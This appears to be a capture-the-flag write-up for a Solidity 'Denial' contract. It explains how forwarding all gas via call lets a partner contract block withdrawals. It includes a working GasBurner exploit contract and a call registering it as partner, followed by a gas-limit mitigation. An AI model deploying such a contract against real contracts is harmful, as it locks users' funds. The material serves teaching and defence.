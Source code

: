 # Introduction

The Denial contract demonstrates a vulnerability that enables a **Denial of Service (DoS)** attack using unbounded gas consumption. The issue arises from improper handling of external calls using call without specifying a gas limit.

# Target
Prevent the `withdraw` function from successfully executing, blocking withdrawals indefinitely.

# Context
The Denial contract has the following key components:
* A `partner` variable (type `address`) to receive 1% of the contract's balance.
* An `owner` variable (type `address`) set to a fixed `address`.

* The `withdraw` function sends ETH to `partner` using `call` without a gas limit, making it vulnerable to gas exhaustion.

* An attacker can deploy a malicious contract with an expensive operation in the `receive` function to consume all available gas.

# Security Vulnerability

The `withdraw` function in the vulnerable contract allows a denial-of-service (DoS) attack due to improper handling of external calls using `call` without setting a gas limit. This enables a malicious contract to consume all gas and revert the transaction.

## Exploit Steps

### Deploy the Malicious `GasBurner` Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GasBurner {
    uint256 n;

    function burn() internal {
        while (gasleft() > 0) {
            n += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```

1. Deploy `GasBurner` and copy its address.
2. Call the vulnerable contract's `setWithdrawPartner` method to set `GasBurner` as the partner:

   ```javascript
   await contract.setWithdrawPartner('<gas-burner-address>')
   ```

Now, whenever `withdraw` is called, it triggers the `receive` function of `GasBurner` and consumes all gas, causing `withdraw` to fail with an "out of gas" exception.

## Improper Gas Handling

In the vulnerable contract, the `withdraw` function executes an external call without limiting gas:

```solidity
    partner.call{value: amountToSend}("");
    payable(owner).transfer(amountToSend);
```

Using `call` sends all available gas, enabling malicious contracts to perform expensive operations and exhaust the gas limit.

## Gas Consumption Attack

The `GasBurner` contract’s `burn` function runs a costly operation:

- The loop `while (gasleft() > 0)` increments a state variable, which is expensive due to storage writes.
- The loop consumes all available gas, causing the original `withdraw` call to fail.

## Mitigation Strategy

To prevent this vulnerability, always set a gas limit when making external calls:

```solidity
(bool success, ) = partner.call{value: amountToSend, gas: 2300}("");
require(success, "Transfer failed");
```

- Limiting gas to 2,300 ensures only basic operations can run, preventing expensive loops.
- Alternatively, use `transfer` or `send` instead of `call` for fixed gas limits.

## Ownership Verification

Test the fix by calling `withdraw` again. If it completes successfully, the issue is resolved.

## Summary

This vulnerability arises from improper use of `call` without gas control. Setting a gas limit prevents malicious contracts from consuming all gas and causing DoS attacks. Always use safe patterns when making external calls!